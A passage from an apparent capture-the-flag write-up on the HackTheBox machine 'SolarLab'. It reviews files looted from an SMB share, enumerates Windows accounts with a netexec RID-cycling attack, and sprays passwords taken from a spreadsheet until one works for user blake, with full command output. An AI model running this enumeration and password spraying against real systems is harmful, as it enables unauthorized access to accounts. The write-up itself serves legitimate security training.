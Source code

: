 I’ll get all the files.

#### Loot Evaluation

The two files from `concepts` are just template documents downloaded from the internet. There’s no interesting data in them. The same is true for `old_leave_request_form.docx`.

`details-file.xlxs` has information about various users and accounts:

[![image-20240517153625828](/img/image-20240517153625828.png)*Click for full size image*](/img/image-20240517153625828.png)

I’ll make note of the passwords especially.

#### Rid Cycle

I’ll use `netexec` to enumerate user account names on the host with a RID cycle attack:

```

oxdf@hacky$ netexec smb 10.10.11.16 -u guest -p '' --rid-brute
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\guest: 
SMB         10.10.11.16     445    SOLARLAB         500: SOLARLAB\Administrator (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         501: SOLARLAB\Guest (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         503: SOLARLAB\DefaultAccount (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         504: SOLARLAB\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         513: SOLARLAB\None (SidTypeGroup)
SMB         10.10.11.16     445    SOLARLAB         1000: SOLARLAB\blake (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         1001: SOLARLAB\openfire (SidTypeUser)

```

There’s an openfire user, which suggests the box may be using [Openfire](https://www.igniterealtime.org/projects/openfire/). There’s also a user named blake, which lines up with the passwords in the sheet.

#### Auth Check

I’ll check each of the passwords in the Excel file against the usernames I have so far. One works for blake:

```

oxdf@hacky$ netexec smb 10.10.11.16 -u blake -p passwords --continue-on-success
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\blake:al;ksdhfewoiuh STATUS_LOGON_FAILURE 
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\blake:dkjafblkjadsfgl STATUS_LOGON_FAILURE 
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\blake:d398sadsknr390 STATUS_LOGON_FAILURE 
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\blake:ThisCanB3typedeasily1@ 
oxdf@hacky$ netexec smb 10.10.11.16 -u openfire -p passwords --continue-on-success
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\openfire:al;ksdhfewoiuh STATUS_LOGON_FAILURE 
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\openfire:dkjafblkjadsfgl STATUS_LOGON_FAILURE 
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\openfire:d398sadsknr390 STATUS_LOGON_FAILURE 
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\openfire:ThisCanB3typedeasily1@ STATUS_LOGON_FAILURE
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\openfire:danenacia9234n STATUS_LOGON_FAILURE 
```